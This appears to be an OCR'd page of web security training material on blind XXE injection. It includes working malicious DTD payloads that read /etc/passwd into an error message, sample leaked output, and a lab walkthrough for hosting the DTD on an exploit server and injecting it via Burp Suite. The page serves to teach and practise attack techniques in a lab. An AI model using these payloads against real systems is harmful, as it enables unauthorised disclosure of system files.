 ```
You can trigger an XML parsing error message containing the contents of the */etc/passwd* file using a malicious external DTD as follows:

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

This DTD carries out the following steps:
- Defines an XML parameter entity called file, containing the contents of the /etc/passwd file.
- Defines an XML parameter entity called eval, containing a dynamic declaration of another XML parameter entity called error. The error entity will be evaluated by loading a nonexistent file whose name contains the value of the file entity.
- Uses the eval entity, which causes the dynamic declaration of the error entity to be performed.
- Uses the error entity, so that its value is evaluated by attempting to load the nonexistent file, resulting in an error message containing the name of the nonexistent file, which is the contents of the /etc/passwd file.

Invoking the malicious external DTD will result in an error message like the following:

```
java.io.FileNotFoundException: /nonexistent/root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

### Exploiting blind XXE to retrieve data via error messages

This lab has a "Check stock" feature that parses XML input but does not display the result.
To solve the lab, use an external DTD to trigger an error message that displays the contents of the /etc/passwd file.
The lab contains a link to an exploit server on a different domain where you can host your malicious DTD.

**Solution**
1. Click "Go to exploit server" and save the following malicious DTD file on your server:
    ```
    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
    %eval;
    %exfil;
    ```
    When imported, this page will read the contents of */etc/passwd* into the *file* entity, and then try to use that entity in a file path.
2. Click "View exploit" and take a note of the URL for your malicious DTD.
3. You need to exploit the stock checker feature by adding a parameter entity referring to the malicious DTD. First, visit a product page, click "Check stock", and intercept the resulting *POST* request in Burp Suite.
4. Insert the following external entity definition in between the XML declaration and the *stockCheck* element:
    ```
    <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
    ```
    You should see an error message containing the contents of the /etc/passwd file.

## Exploiting blind XXE by repurposing a local DTD

The preceding technique works fine with an external DTD, but it won't normally work with an internal DTD that is fully specified within the DOCTYPE element. This is because the technique involves using an XML parameter entity within the definition of another parameter entity. Per the XML specification, this is permitted in external DTDs but not in internal DTDs. 
```